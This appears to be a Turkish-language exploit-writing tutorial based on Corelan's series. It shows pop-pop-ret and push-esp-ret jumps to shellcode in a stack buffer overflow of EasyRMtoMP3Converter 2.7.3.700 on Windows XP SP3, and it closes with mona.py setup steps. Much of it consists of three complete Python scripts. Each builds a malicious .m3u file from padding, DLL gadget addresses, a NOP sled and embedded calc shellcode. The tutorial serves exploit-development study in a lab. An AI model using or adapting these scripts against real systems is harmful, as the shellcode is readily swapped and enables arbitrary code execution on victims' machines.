








# Exploit Writing Tutorial Part 2 : Stack Based Overflow - jumping to shellcode

`OS` : Windows XP SP3

`Vulnerable App`: [EasyRMtoMP3Converter](https://web.archive.org/web/20100219221638/http://www.rm-to-mp3.net/)

`Debugger` : [Immunity Debugger](https://www.immunityinc.com/products/debugger/)

`Video` : https://www.twitch.tv/videos/699229760

`Source` : https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/

Bir önceki yazıda temel olarak `stack overflow` zafiyetinin nasıl tespit edildiğini ve `exploit` edildiğini gördük. Ancak sürekli olarak gelişen `saldırı` teknikleri yanında `savunma` teknikleri de geliştiği için uyguladığımız taktik her koşulda çalışmayabilir veya o taktiğin oluşması için gerekli olan gereksinimlere sahip olamayabiliriz. Bundan dolayıdır ki farklı farklı taktikler geliştirmemiz/öğrenmemiz gerekmektedir.

Bu yazıda da EIP üzerine direk shellcode'un olduğu adresi yazmak veya `jmp esp` gibi bir işlem ile shellcode'a sıçramak dışında başka hangi yöntemler ile shellcode'umuza sıçrayıp çalıştırabiliriz ona bakacağız.

`corelan.be`'nin kendi sayfasında yer alan bazı yöntemler... İlk sırada yer alan `jump (or call)` tekniğini geçen yazıda anlattık.


## `pop ret`

Bu tekniği nasıl anlatabilirim diye düşünürken gene corelan abimizin güzel bir çizimini gördüm :D



Bu yöntemde gene EIP 'ye kadar olan alanımızı dolduruyoruz. Daha sonra EIP üzerine tekniğin adından da anlaşıldığı üzere pop-pop-ret komutlarını giriyoruz. Peki bu komutlar ne yapıyor ?

Mesela `pop ebx, pop eax, ret` diye bir komutumuz olsun. (Hatırlayacak olursanız `pop` komutu  stack içerisinden bir veri çıkarmak için kullanılır.) Burda `pop ebx, pop eax` dediğimiz zaman stack'e en son gönderilmiş 2 değeri sırasıyla bu registerlarımıza yerleştirecektir. Daha sonra gelen `ret` komutu ise stackde bulunan son adresi/komutu çalıştıracaktır. Bizim için önemli olan kısım `ret` komutunun shellcode'umuza gidecek birşeyler yapması. Yani ebx, eax registerlarına bir değer yüklemek bizim işimize yaramayacağı için bunlara yan etki diyoruz.

`NOT:` Stack'in en sonundan kasıt ESP'nin o an gösterdiği konum gibi düşünebiliriz

Bu yan etkilerden kurtulmak içinde `pop ebx, eax` komutumuzdan sonra bu registerlara rastgele birer değer yerleştirmek için 8 byte'lık bir karakter giriyoruz. Yukardaki resme bakacak olursanız eğer EIP registerından sonra yazmış olduğu 8 tane NOP karakteri ebx, eax üzerine yazılacak. Daha sonra ret komutu çalıştığında `jmp esp` komutunu başarıyla çalıştıracak böylece shellcode'umuz çalışmış olacaktır.

Hadi bir de bu tekniği kullanarak kendimiz bir exploit yazalım... Önceki yazıdan zaten `EIP`'ye yazmak için kaç karaktere ihtiyacımız olduğunu bulmuştuk. Hatta `jmp esp` işlemini gerçekleştiren bir adreste bulmuştuk.

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"A"*26109
jmp_esp = b"\xB4\x39\xCD\x01" # jmp esp - MSRMCcodec02.dll
pop_pop_ret = b""
nop = b"\x90"*25
pre_esp = b"JUNK"

exploit = padding + pop_pop_ret + pre_esp + b"\x90"*8 + jmp_esp + nop + calc + nop

# File path
file = "EasyRMtoMP3Converter/exploit.m3u"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```  

Exploitimiz şu şekilde olacak. Tek eksiğimiz `pop pop ret` yapan bir gadget bulmak.

İkinci seçenek olarak hazır bir gadget bulmak yerine registerları pop eden komutların `opcode`'larını öğrenip onlarıda kullanabiliriz

Immunity Debugger üzerinde programımızı açalım ve `CTRL+S` kısayolunu kullanıp `Find sequence of commands` ekranını açalım. Ve aşağıda yazan komutu girelim ve aratalım.

```
POP R32
POP R32
RET
```

Eğer benim gibi `main` dosyanın içerisinde aratır ve badchar olmayan bir gadget bulamazsanız o zaman `All sequences in all modules` ile deneyebilirsiniz :D



Sonuç olarak bir sürü bişi çıkıyor...



Burdan badchar olmayan bir adres seçebiliriz. Veya daha önce `jmp esp` işlemini bulmuş olduğumuz `MSRMCcodec02.dll` dosyasını açıp orda aratabiliriz.



Ve artık exploitimizi tamamlayabiliriz.

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"A"*26109
jmp_esp = b"\xB4\x39\xCD\x01" # jmp esp - MSRMCcodec02.dll
pop_pop_ret = b"\x11\x11\xBF\x01" # pop edi pop esi retn - MSRMCcodec02.dll
nop = b"\x90"*25
pre_esp = b"JUNK"


exploit = padding + pop_pop_ret + pre_esp + b"\x90"*8 + jmp_esp + nop + calc + nop

# File path
file = "EasyRMtoMP3Converter/exploit.m3u"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Exploitimiz hazır :) Afiyet olsun



## `push ret`

Bu kısımda aslında `pop ret` tekniğine çok benzer. Sadece stackden bir değer çıkarmak yerine stack içerisine bir değer eklememiz gerekiyor. Bu eklediğimiz değerde ret komutu ile çalışmış olacak. Yani stack içerisine shellcode'umuzu gösteren birşeyler pushlamamız gerekecek. Bunun içinde biçilmiş kaftan olan `push esp, ret` komutunu arayacağız :D

`MSRMCcodec00.dll` içerisinde bir tane buldum.



Evet lafı çokda uzatmaya gerek yok hemen exploitimizi hazırlayalım.

POP komutları olmadığı için onları atlatmak için kullandığımız 8 byte'lık NOP karakterlerine ihtiyacımız yok. Ayrıca ESP adresini tek komutta return edeceğimiz için jmp esp komutunada ihtiyacımız olmayacak.

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"A"*26109
push_ret = b"\xF6\x57\xB8\x01" # push esp  retn - MSRMCcodec00.dll
nop = b"\x90"*25
pre_esp = b"JUNK"


exploit = padding + push_ret + pre_esp + nop + calc + nop

# File path
file = "EasyRMtoMP3Converter/exploit.m3u"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Şimdi çalıştıralım...



Ve başarılı bir şekilde çalışmış oldu :)

## `mona.py` Kurulumu

https://github.com/corelan/mona/blob/master/mona.py Şu adreste bulunan mona.py dosyasını Windows XP sanal makinemizde `C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands` dizinin altına indiriyoruz.

`!mona config -set workingfolder C:\Documents and Settings\Administrator\Desktop\%p` Komutu ile de aradığımız şeyin çıktısını masaüstünde bir dosyanın içine yaz demiş oluyoruz.
